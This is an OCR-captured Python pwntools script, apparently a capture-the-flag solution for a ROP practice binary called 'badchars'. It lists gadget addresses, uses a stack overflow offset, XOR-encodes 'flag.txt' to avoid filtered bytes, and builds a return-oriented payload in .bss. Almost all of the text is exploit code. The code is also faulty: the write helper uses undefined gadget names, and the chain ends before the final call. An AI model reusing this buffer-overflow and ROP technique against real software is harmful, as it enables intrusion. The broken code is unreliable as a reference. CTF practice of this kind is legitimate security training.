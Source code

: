 ``` python
# Gadgets
# pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
pop_r12345=0x40069c
# 0x00000000004006a2 : pop r15 ; ret
pop_r15 = 0x4006a2
#0x400634 : mov qword ptr [r13], r12 ; ret
write_r13r12=0x400634
# pop rdi ; ret
pop_rdi = 0x4006a3
#0x0000000000400628 : xor byte ptr [r15], r14b ; ret
xor_r15 = 0x400628

def w_write(addr, data):
    r=b""
    if type(data) == str:
        data=data.encode()
    for i in range(0,len(data),8):
        r += p64(pop_r1415)
        r += p64(addr)
        r += data[i:i+8]
        r += p64(write_r14)
    return r


def xorchain(chain, bytes, mask):
    r=b""
    for i,c in enumerate(chain):
        if bytes&0x80:
            c=c^mask
        r+=chr(c).encode()
        bytes= bytes<<1
    return r

# Offset avant ecrasement de l'adresse de retour
offset=0x28

# Set up pwntools for the correct architecture
elf =  ELF('badchars')
context.binary=elf

print_file=elf.plt['print_file']

bss = 0x00601038

flagxored = xorchain(b"flag.txt",0b00111010,3)

PL =b"A"*offset
PL+=p64(pop_r12345)
PL+=flagxored
PL+=p64(bss)
PL+=p64(3)
PL+=p64(bss+2)
PL+=p64(write_r13r12)

PL+=p64(xor_r15)

PL+=p64(pop_r15)
PL+=p64(bss+3)
PL+=p64(xor_r15)

PL+=p64(pop_r15)
PL+=p64(bss+4)
PL+=p64(xor_r15)
```